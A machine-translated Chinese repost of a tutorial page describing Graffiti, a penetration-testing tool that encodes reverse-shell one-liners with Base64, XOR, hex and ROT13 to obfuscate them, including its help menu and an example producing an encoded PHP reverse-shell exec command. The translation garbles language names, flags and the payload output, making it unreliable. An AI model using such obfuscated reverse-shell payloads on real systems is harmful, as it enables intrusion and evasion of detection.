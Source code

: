 # Graffiti:一个工具，用于生成模糊的 One Liners，以帮助进行渗透测试

> 原文：<https://kalilinuxtutorials.com/graffiti/>

[![Graffiti : A Tool To Generate Obfuscated One Liners To Aid In Penetration Testing](img//fbc4d72e39f52e4bd2c1a04833e6d4fa.png "Graffiti : A Tool To Generate Obfuscated One Liners To Aid In Penetration Testing")](https://3.bp.blogspot.com/-Q1MZJotjTc4/XObcEIXJPFI/AAAAAAAAAdk/AVxDVjUgNOQY6rVkgWQYTEjsC60BwRhSACLcBGAs/s1600/Penetration%2BTesting%25281%2529.png)

Graffiti 是一种工具，用于生成混淆的单行程序，以帮助进行渗透测试。Graffiti 接受以下编码语言:

*   计算机编程语言
*   Perl 语言
*   一批
*   Powershell
*   服务器端编程语言（Professional Hypertext Preprocessor 的缩写）
*   尝试

它还将接受当前不在列表中的语言，并将 oneliner 存储到数据库中。

**也可阅读-[Bandit:旨在发现 Python 代码中常见安全问题的工具](https://kalilinuxtutorials.com/bandit-security-issues/)**

**特性**

Graffiti 配备了一个数据库，可以将每个编码的有效载荷插入其中，以便最终用户可以查看已经创建的有效载荷以供将来使用。可以使用以下技术对有效载荷进行编码:

*   异或运算
*   Base64
*   十六进制
*   ROT13
*   生的

涂鸦的一些特征包括:

*   终端接入，能够运行外部命令
*   能够创建自己的有效负载 JSON 文件
*   能够查看数据库中缓存的有效负载
*   能够在内存中运行数据库以便快速删除
*   终端历史和终端历史的保存
*   终端内部的自动制表符补全
*   能够安全地擦除历史文件和数据库文件
*   多种编码技术如上所述

**用法**

Graffiti 有一个内置的终端，当你没有给程序传递标志时，它会自动进入终端。终端拥有历史记录、运行外部命令的能力以及自己的内部命令。为了获得帮助，你必须键入`help`或`?`:

```
no arguments have been passed, dropping into terminal type `help/?` to get help, all commands that sit inside of `/bin` are available in the terminal
root@graffiti:~/graffiti# ?

 Command                                  Description
---------                                --------------
 help/?                                  Show this help
 external                                List available external commands
 cached                                  Display all payloads that are already in the database
 list/show                               List all available payloads
 search <phrase>                         Search for a specific payload
 use <payload> <coder>                   Use this payload and encode it using a specified coder
 info <payload>                          Get information on a specified payload
 check                                   Check for updates
 history                                 Display command history
 exit/quit                               Exit the terminal and running session
 encode <script-type> <coder>            Encode a provided payload

root@graffiti:~/graffiti# help

 Command                                  Description
---------                                --------------
 help/?                                  Show this help
 external                                List available external commands
 cached                                  Display all payloads that are already in the database
 list/show                               List all available payloads
 search <phrase>                         Search for a specific payload
 use <payload> <coder>                   Use this payload and encode it using a specified coder
 info <payload>                          Get information on a specified payload
 check                                   Check for updates
 history                                 Display command history
 exit/quit                               Exit the terminal and running session
 encode <script-type> <coder>            Encode a provided payload

```

Graffiti 还提供了命令行参数，当您需要快速编码有效载荷时:

**用法:graffiti . py[-H][-c CODEC][-P PAYLOAD]
[–创建有效载荷脚本类型有效载荷类型描述 OS]
[-l]
[-P[有效载荷[脚本类型，有效载荷类型，描述…]]]
[-lH 监听地址] [-lP 监听端口][-u URL][-vC]
[-H][-W][–内存] [-mC 命令[命令…]]

可选参数:【参数 –PAYLOAD PAYLOAD 传递要使用的有效负载的路径(****default = None)
–创建有效负载脚本类型有效负载类型描述 OS
创建有效负载文件并将其存储在
中。 /etc/payloads(*****default = None)-l，–list 按路径列出所有可用的有效负载(*****default = False)
-P[PAYLOAD[SCRIPT-TYPE，PAYLOAD-TYPE，DESCRIPTION …]]，–personal-PAYLOAD[PAYLOAD[SCRIPT-TYPE，PAYLOAD-TYPE，DESCRIPTION…]]]
传递您自己的个人有效负载以用于编码
(*****default = None)-lH listing-ADDRESS，–lhost listing –lport LISTENING-PORT
传递一个监听端口以用于有效负载(如果
需要的话)(** ***默认=无)-u URL，–URL URL 如果有效负载需要的话传递一个 URL(*****默认=无)
-vC，–view-cached 查看已经存在于
数据库中的缓存数据
-H，–no-history 不存储命令历史记录(** ***默认=True –wipe 擦除数据库和历史(*** **默认= False)
–memory 将数据库初始化成内存而不是. db
文件(** ***默认= False)–mC COMMAND【COMMAND…】,–more-commands COMMAND【COMMAND…】传递更多的外部命令，这将允许它们被访问终端内部的命令必须在你的路径中(*** **默认=None)***

对有效载荷进行编码很简单，如下所示:

**根@涂鸦:~/graffiti# python 涂鸦. py-c base 64-p/Linux/PHP/socket _ reverse . JSON-lh127 . 0 . 0 . 1-LP 9065
委托有效负载:
PHP-r ' exec(base 64 _ decode(" jhnvy 2s 9 znvy 2 tvcgvukcixmj cuc 4 wljeilkwnjupo**

**安装**

在任何 Linux、Mac 或 Windows 系统上，Graffiti 都应该开箱即用，不需要安装任何外部软件包。如果您想将 Graffiti 作为可执行文件安装到您的系统上(您必须运行 Linux 或 Mac 才能成功运行)，您只需做以下事情:

**。/install.sh**

这将安装涂鸦到您的系统，并允许您从任何地方运行它。

**演示**

[https://player.vimeo.com/video/303548362?dnt=1&app_id=122963](https://player.vimeo.com/video/303548362?dnt=1&app_id=122963)

[**Download**](https://github.com/Ekultek/Graffiti)